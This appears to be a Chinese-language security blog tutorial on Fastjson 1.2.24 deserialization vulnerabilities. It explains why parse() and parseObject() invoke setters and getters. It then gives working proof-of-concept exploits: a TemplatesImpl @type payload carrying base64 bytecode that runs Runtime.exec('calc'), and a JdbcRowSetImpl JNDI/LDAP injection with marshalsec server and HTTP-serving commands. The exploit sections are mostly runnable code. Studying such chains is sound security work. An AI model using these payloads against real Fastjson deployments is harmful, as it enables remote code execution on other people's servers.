

#### Fastjson概述（随处copy的）

FastJson是啊里巴巴的的开源库，用于对JSON格式的数据进行解析和打包。其实简单的来说就是处理json格式的数据的。例如将json转换成一个类。或者是将一个类转换成一段json数据。


#### 配置

fastjson-1.2.24

jdk 1.8.0_231





#### 反序列化简单使用

```java
package com.test1;

public class User {
    private String username;
    private String password;
    public User(){}
    public User(String username,String password){
        this.username = username;
        this.password = password;
    }
    public String getUsername() {
        return username;
    }
    public void setUsername(String username) {
        this.username = username;
    }
    public String getPassword() {
        return password;
    }
    public void setPassword(String password) {
        this.password = password;
    }
    @Override
    public String toString() {
        return "User [username=" + username + ", password=" + password + "]";
    }
}
```

```java
User user = new User("dmego", "123456");
String UserJson = JSON.toJSONString(user);
System.out.println("简单java类转json字符串:"+UserJson);
```

```
json字符串转简单java对象:User [username=dmego, password=123456]
```


#### 反序列化漏洞

```java
package com.test2;

import com.alibaba.fastjson.JSON;
import java.io.IOException;
public class fastjson {
    public String name;
    public String age;
    public fastjson() throws IOException {
    }
    public void setName(String test) {
        System.out.println("name setter called");
        this.name = test;
    }
    public String getName() {
        System.out.println("name getter called");
        return this.name;
    }
    public void setAge(String test) {
        System.out.println("age setter called");
        this.age = test;
    }
    public String getAge(){
        System.out.println("age getter called");
        return this.age;
    }
    public void tt(){
        System.out.println("ttttt");
    }

    public static void main(String[] args) {
        Object obj = JSON.parse("{\"@type\":\"com.test2.fastjson\",\"name\":\"test name\", \"age\":\"test age\"}");
        System.out.println(obj);
        System.out.println("------------");
        Object obj2 = JSON.parseObject("{\"@type\":\"com.test2.fastjson\",\"name\":\"test name\", \"age\":\"test age\"}");
        System.out.println(obj2);
    }
}
```

```
name setter called
age setter called
com.test2.fastjson@4459eb14
------------
name setter called
age setter called
age getter called
name getter called
{"name":"test name","age":"test age"}
```


#### 反序列化漏洞的原理

参考：https://paper.seebug.org/636/

FastJson中的 parse() 和 parseObject()方法都可以用来将JSON字符串反序列化成Java对象，parseObject() 本质上也是调用 parse() 进行反序列化的。但是 parseObject() 会额外的将Java对象转为 JSONObject对象，即 JSON.toJSON()。所以进行反序列化时的细节区别在于，**parse() 会识别并调用目标类的 setter 方法**及某些特定条件的 getter 方法，而 **parseObject() 由于多执行了 JSON.toJSON(obj)，所以在处理过程中会调用反序列化目标类的所有 setter 和 getter 方法**。


#### 利用链


#### TemplatesImpl利用

TemplatesImpl的利用原理，参考（好复杂，没去完全理解）：https://blog.weik1.top/2021/01/15/TemplatesImpl%E5%88%A9%E7%94%A8%E9%93%BE/

利用过程，参考：https://xz.aliyun.com/t/9344

```java
package com.test2;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;

public class fastjson_TemplatesImpl {
    public static void main(String[] args) {
        ParserConfig config = new ParserConfig();
        String text = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\",\"_bytecodes\":[\"yv66vgAAADIANAoABwAlCgAmACcIACgKACYAKQcAKgoABQAlBwArAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAtManNvbi9UZXN0OwEACkV4Y2VwdGlvbnMHACwBAAl0cmFuc2Zvcm0BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsHAC0BAARtYWluAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgEABGFyZ3MBABNbTGphdmEvbGFuZy9TdHJpbmc7AQABdAcALgEAClNvdXJjZUZpbGUBAAlUZXN0LmphdmEMAAgACQcALwwAMAAxAQAEY2FsYwwAMgAzAQAJanNvbi9UZXN0AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAE2phdmEvaW8vSU9FeGNlcHRpb24BADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BABNqYXZhL2xhbmcvRXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAUABwAAAAAABAABAAgACQACAAoAAABAAAIAAQAAAA4qtwABuAACEgO2AARXsQAAAAIACwAAAA4AAwAAABEABAASAA0AEwAMAAAADAABAAAADgANAA4AAAAPAAAABAABABAAAQARABIAAQAKAAAASQAAAAQAAAABsQAAAAIACwAAAAYAAQAAABcADAAAACoABAAAAAEADQAOAAAAAAABABMAFAABAAAAAQAVABYAAgAAAAEAFwAYAAMAAQARABkAAgAKAAAAPwAAAAMAAAABsQAAAAIACwAAAAYAAQAAABwADAAAACAAAwAAAAEADQAOAAAAAAABABMAFAABAAAAAQAaABsAAgAPAAAABAABABwACQAdAB4AAgAKAAAAQQACAAIAAAAJuwAFWbcABkyxAAAAAgALAAAACgACAAAAHwAIACAADAAAABYAAgAAAAkAHwAgAAAACAABACEADgABAA8AAAAEAAEAIgABACMAAAACACQ=\"],'_name':'a.b','_tfactory':{ },\"_outputProperties\":{ }}";
        Object obj = JSON.parseObject(text, Object.class, config, Feature.SupportNonPublicField);
    }
}
```

代码中的base64编码内容是由以下java代码编译后进行base64加密的

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Test extends AbstractTranslet {
    public Test() throws IOException {
        Runtime.getRuntime().exec("calc");
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

    }

    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
```

放一个python的加密脚本

```python
import os, base64

with open("test.class", "rb") as f:

    bs64_str = base64.b64encode(f.read())

    print(bs64_str, type(bs64_str))

    # imgdata = base64.b64decode(bs64_str)

    with open("./2.txt", "wb") as f2:
        f2.write(bs64_str)
```


#### JdbcRowSetImpl

这个函数的原理就是jndi注入，可以网上随便找或者看我往期的jndi注入

(RMI会报错，要开相关配置，我直接用LDAP了)

**client代码**

```java
package com.test3;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;

public class fastjson_JdbcRowSetImpl {
    public static void main(String[] args) {
        ParserConfig config = new ParserConfig();
        String text = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:1099/Exploit\",\"autoCommit\":true}";
        Object obj = JSON.parseObject(text, Object.class, config, Feature.SupportNonPublicField);
    }
}
```

**payload代码**

```java
public class Exploit {
    public Exploit(){
        try{
            Runtime.getRuntime().exec("calc");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }
}

```

**开启server的命令：**

```cmd
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:80/#test" 1099
```

**开启web命令：**

```cmd
python3 -m http.server 80  --bind 127.0.0.1
```

